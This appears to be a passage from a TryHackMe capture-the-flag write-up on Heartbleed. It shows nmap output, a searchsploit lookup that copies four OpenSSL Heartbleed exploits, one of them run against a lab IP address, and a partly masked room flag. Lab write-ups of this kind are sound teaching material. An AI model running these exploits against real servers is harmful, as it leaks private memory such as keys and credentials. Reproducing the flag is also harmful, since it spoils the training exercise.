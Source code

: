 ```
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 298.02 seconds
```

```
bibo318@parrot:~/CTFs/tryhackme/HeartBleed$ searchsploit heartbleed
------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)    | multiple/remote/32764.py
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)                                    | multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)                     | multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure                                       | multiple/remote/32745.py
------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
bibo318@parrot:~/CTFs/tryhackme/HeartBleed$ searchsploit -m 32764 32791 32998 32745
  Exploit: OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)
      URL: https://www.exploit-db.com/exploits/32764
     Path: /usr/share/exploitdb/exploits/multiple/remote/32764.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32764.py


  Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)
      URL: https://www.exploit-db.com/exploits/32791
     Path: /usr/share/exploitdb/exploits/multiple/remote/32791.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32791.c


  Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)
      URL: https://www.exploit-db.com/exploits/32998
     Path: /usr/share/exploitdb/exploits/multiple/remote/32998.c
File Type: ASCII text, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32998.c


  Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure
      URL: https://www.exploit-db.com/exploits/32745
     Path: /usr/share/exploitdb/exploits/multiple/remote/32745.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32745.py


bibo318@parrot:~/CTFs/tryhackme/HeartBleed$ python 32745.py 34.240.13.68 > 32745result.txt
```

1. What is the flag?

`THM{V0N318*****sSl-Is-BaD12**123:))}`
